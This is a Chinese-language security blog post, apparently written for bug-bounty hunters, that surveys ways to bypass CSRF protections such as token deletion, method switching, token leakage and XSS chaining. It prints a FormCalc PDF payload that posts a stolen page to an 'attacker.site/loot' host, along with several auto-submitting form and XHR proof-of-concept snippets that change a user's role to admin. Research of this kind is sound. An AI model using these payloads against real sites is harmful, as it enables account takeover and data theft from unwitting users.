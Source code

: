 ```yaml
---
layout: post
title:  CSRF Bypass!
date: 2019-1-8 22:02:24.000000000 +08:00
---
```

我的twitter @C1h2e11每天固定转载优质文章和思路，欢迎关注！
#	 起因
我最近在研究国外的各种新思路，最近看到了一篇CSRF的相关文章，只是写了各种Poc，我在写之前查找了大量的案例，这也就是为什么说技术分享的受益最大永远都是分享者，在这些案例里面我发现大多都是没有CSRF token或者其他防护机制的，同样的我查找了很多文章关于CSRF攻击，也并没有找到我想要的，于是就有了今天的文章


# CSRF Protection?
我们在漏洞挖掘过程中不难看出，很多时候我们会遇到各种CSRF的防护机制，随便一个网站都有token或者其他的防护机制。下面我们需要了解一下常见的防护方法
-	CSRF token
-	Referer Based Protection
-	XRSF Header
-	verify code
-	Seesions timeout
-	Double Password
....



# Bypass
我尽力寻找了各种案例和bypass思路，文后会有我看过的文章链接

---
删！
这个思路再很多时候都适用，面对`Referer` `XRSF Header` `token`都可以对其进行删除
这里我们用一个案例来说明
`http://infosecflash.com/2019/01/05/how-i-could-have-taken-over-any-pinterest-account/`
写文的日子是`2019-1-8`这个write up是前天的漏洞，删除了`XRSF Header`

---
改！
这个思路我是在medium上看见的
`https://medium.com/@Skylinearafat/a-very-useful-technique-to-bypass-the-csrf-protection-for-fun-and-profit-471af64da276`
修改了请求方式GET改成了POST 同样的漏洞挖也挖到过一次，我先修改了请求方式，并把POST的参数通过GET传入，但是也成功完成了CSRF攻击
如果你观察的仔细的话你可以看出
`http://infosecflash.com/2019/01/05/how-i-could-have-taken-over-any-pinterest-account/`这个案例删除了`XRSF Header`但是没有成功还是需要修改POST为GET

---
盗token！
尝试从其他渠道获得CSRF token
`http://www.anquan.us/static/bugs/wooyun-2015-090935.html`
利用了Referer泄露获取CSRF token 再利用CSRF token进行CSRF攻击

---
Use Bad PDF 
`get() and post() methods of FormCalc allow to ex-filtrate CSRF-token`
这是我在twitter找到的一个文档上的原文
其实就是我们的PDF被浏览器解析，因为插件的原因可以进行请求，我们上传恶意的PDF文件在目标网站这样可以绕过referer甚至CSRF token ，这个漏洞和去年(2018)阿里的Chrome支持的PDF跳转是类似的。
我们只需要制作恶意的PDF文件，在里面插入我们的恶意代码
```html
<script contentType='application/x-formcalc'>
var content = GET("https://example.com/Settings.action"); Post("http://attacker.site/loot",content,"text/plain");
</script>
```
没错Poc是抄的，原地址
`https://speakerd.s3.amazonaws.com/presentations/05f698063d87416ba0ec312d0948799b/ZeroNights_2017.pdf`
这是一个CSRF bypass的PPT本文的一些思路也取自这里

---
改Cookie！
有些时候我们会遇到哪种可以修改cookie的漏洞
比如`CLRF`等，我们可以利用这些漏洞打组合拳进行CSRF攻击

---
组合拳！
XSS+CSRF
可以利用XSS漏洞进行直接的请求饶过Referer限制
也可以利用XSS盗取CSRF token 从而进行CSRF漏洞利用

---

# 浓缩
我在寻找更多bypass手段的时候我找到了这个调查
![CSRF]({{ "http://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/CSRF/CSRF1.png"|CSRF}})

![CSRF]({{ "http://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/CSRF/CSRF2.png"|CSRF}})

那么我们真正在实战中用到比较多的就是

-	删除CSRF token
-	置空token参数
-	修改请求方法
-	与token相同长度的任意字符串替换token
-	固定token
我相信看到这里各位已经心领神会了

---





# 关于提交方式
```html
<a href="http://www.example.com/api/setusername?username=CSRFd">Click Me</a>
```
```html
<img src="http://www.example.com/api/setusername?username=CSRFd">
```
```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
```
```html
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST"&>
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
<script>
 document.getElementById("autosubmit").submit();
</script>
```
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.setRequestHeader("Content-Type", "text/plain");
xhr.send('{"role":admin}');
</script>
```

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```

#	参考链接
```
https://medium.com/@Skylinearafat/a-very-useful-technique-to-bypass-the-csrf-protection-for-fun-and-profit-471af64da276
https://medium.com/@iaincollins/csrf-tokens-via-ajax-a885c7305d4a
https://medium.com/@arbazhussain/stealing-access-token-of-one-drive-integration-by-chaining-csrf-vulnerability-779f999624a7
https://medium.com/bugbountywriteup/content-negotiation-with-csrf-969e639d6a1a
https://medium.com/rubyinside/a-deep-dive-into-csrf-protection-in-rails-19fa0a42c0ef
https://speakerd.s3.amazonaws.com/presentations/05f698063d87416ba0ec312d0948799b/ZeroNights_2017.pdf
Check out @detectify’s Tweet: https://twitter.com/detectify/status/1081520785322332166?s=09
http://infosecflash.com/2019/01/05/how-i-could-have-taken-over-any-pinterest-account/
https://github.com/TheRook/CSRF-Request-Builder
```

#	反思
沉淀!

